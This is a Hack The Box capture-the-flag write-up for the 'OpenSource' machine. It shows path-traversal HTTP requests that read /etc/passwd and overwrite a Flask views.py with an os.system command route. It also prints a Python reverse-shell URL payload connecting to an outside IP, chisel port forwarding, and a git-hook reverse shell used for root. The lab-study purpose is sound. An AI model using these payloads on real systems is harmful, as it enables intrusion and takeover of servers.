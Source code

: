 ```yaml
---
draft: false
news_post: false
author:
  - paul-knight
title: HTB Writeup - OpenSource
date: 2022-10-12T14:28:43.259Z
usePageBundles: true
featureImage: images/opensource.png
thumbnail: images/opensource.png
shareImage: images/opensource.png
codeLineNumbers: true
codeMaxLines: 10
figurePositionShow: true
showRelatedInArticle: true
tags:
  - Application Security
categories:
  - Education & Training
series:
  - hack the box
---
```

# OPENSOURCE
### User flag

As always nmap tcp port scan

```shell
$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.164 -oN allports
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response
```

Then I visited the website played with the upload files subdomain and found some errors that indicated that the flask application was in debug mode, so to make sure I fuzzed the visited and found what I expected.

```shell
$ ffuf -w ~/wordlist/directory-list-2.3-big.txt:FUZZ -u http://10.10.11.164/FUZZ -v -o fuzzdir

[Status: 200, Size: 2489147, Words: 9473, Lines: 9803, Duration: 124ms]
| URL | http://10.10.11.164/download
    * FUZZ: download

[Status: 200, Size: 1563, Words: 330, Lines: 46, Duration: 48ms]
| URL | http://10.10.11.164/console
    * FUZZ: console

```

The console was protected by a pin so I did some research to see if there was anyway to crack it and found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug). I needed someway to get a LFI to hack the console.
Eventually by reading the source code I found some protection against *../* but not against *..//* in utils.py

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
So via BurpSuite I changed the name of the file to ..//..//..//..//etc/passwd and I was able to download the file

```
GET /uploads/..//..//..//..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
```

 Next I tried cracking into the console but I came to the conclusion it was a rabbit hole since it was impossible for me to crack the PIN. However I thought that if I could manipulate the GET request I could also do it with the POST request and change the python code. So I added a bit of code to views.py

```python
@app.route('/dasor')
def rce():
    return os.system(request.args.get('cmd'))
```

And uploaded it with a POST requests

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12202201532330092291110617912
Content-Length: 1008
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------12202201532330092291110617912
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python
...
```

Then I went to the domain I had just created and started a reverse shell

```
http://10.10.11.164/dasor?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.0.1%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

But I was not a user on the system I was root but ... in a container. At that point I remebered that port number 3000 so I tried to use chisel for port forwarding. Also I had to compile it staticly to use it in the container. I uploaded the binary through the page and fowarded the port

```shell
#on kali
$ chisel server -p 7777 --reverse
#on victim
$ ./chisel client 10.10.14.74:7777 R:3000:172.17.0.1:3000
```

The port contained gitea with a user called dev01 I found his credentials on the .git folder that comes with the source code on the brach dev. Once we login we find his ssh key so I copied it to my machine and logged via ssh.

### Root flag

As always I used linepeas but this time it did not found anything critical. I realised that the user had a git directory in his home but I did not found any clue until I tiped git log once again and saw another new commit. Was someone else on the machine or was it automatic?. To clear that doubt I uploaded and used pspy64 and found out every minute a commit was made.

Firstly I checked on crontab but it was empty so I did some research and found you can schedule git commands inside the .git/hooks so I looked inside and found a lot of files and added a reverse shell to one of them, one minute later I was root.

I later found out that you were supposed to go into the folder by yourself and delete the .sample that the files had since with the .sample they do not get executed. However in my instance someone already did it.
